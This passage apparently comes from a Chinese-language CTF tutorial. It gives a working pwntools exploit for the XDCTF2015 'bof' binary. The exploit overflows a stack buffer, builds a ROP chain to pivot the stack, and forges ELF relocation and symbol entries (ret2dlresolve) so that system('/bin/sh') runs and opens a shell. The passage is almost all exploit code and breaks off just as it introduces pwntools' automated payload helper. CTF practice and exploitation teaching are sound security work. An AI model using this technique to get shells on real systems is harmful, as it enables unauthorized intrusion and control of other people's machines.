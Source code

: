 ```python

r = process('bof')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt)
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)
payload += p32(base_stage)
payload += p32(leave_ret)
r.sendline(payload)

cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
index_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 16) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
gdb.attach(r)
r.sendline(payload2)
r.interactive()
```

同时，我们还可以通过pwntools 的Ret2dlresolvePayload来自动完成需要手动的伪造步骤：
